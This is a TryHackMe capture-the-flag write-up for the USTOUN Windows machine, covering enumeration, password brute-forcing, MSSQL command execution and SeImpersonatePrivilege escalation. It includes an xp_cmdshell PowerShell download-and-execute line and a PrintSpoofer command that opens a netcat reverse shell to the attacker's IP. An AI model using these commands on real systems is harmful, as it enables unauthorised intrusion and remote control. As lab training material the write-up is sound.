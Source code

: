 ```yaml
---
title: USTOUN TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/1.png)

## Scanning
We perform a quick and aggressive scan (**not recommended in real environments**) to detect open ports on the server.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/2.png)

Then, knowing the ports, we will launch an nmap with scripts and versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/3.png)


## Enumeration
We test if we can authenticate with an anonymous user, we see that we cannot.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/4.png)

Another test that I usually do in real environments, is to test with the *"guest"* user, which is usually enabled by default. As you can see in the evidence, we can use it to get the users by their **RID**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/5.png)

We create a list of the most relevant users obtained and brute force the *"rockyou"* dictionary. We will get some credentials.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/6.png)


## Exploitation
After several tests in different services, we found that the credentials are functional in the *"Microsoft SQL Server"* service, from here we will be able to load a reverse shell.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/7.png)

```powershell
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.11.30.149:8000/m3.ps1\")
```

#### Reverse shell connection

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/8.png)

## Privilege Escalation
We tried to read the user flag, but we do not have access. We check the user's privileges and see that we could escalate by impersonating the user **"Administrator"** using **"SeImpersonatePrivilege"**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/9.png)

We identify the exact version of Windows installed.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/10.png)

We download the **PrintSpoofer** exploit from this [github](https://github.com/itm4n/PrintSpoofer), we also download **netcat** to the victim machine and run the following command putting a listening **netcat** on our Kali.

```
.\PrintSpoofer.exe -c "C:\users\SVC-Kerb.DC01\Videos\nc.exe 10.11.30.149 444 -e cmd"
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/13.png)

#### Reverse shell as Administrator

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/13-2.png)

And now we read the two flags.

#### User flag

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/15.png)

#### Administrator flag

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/USTOUN/14.png)





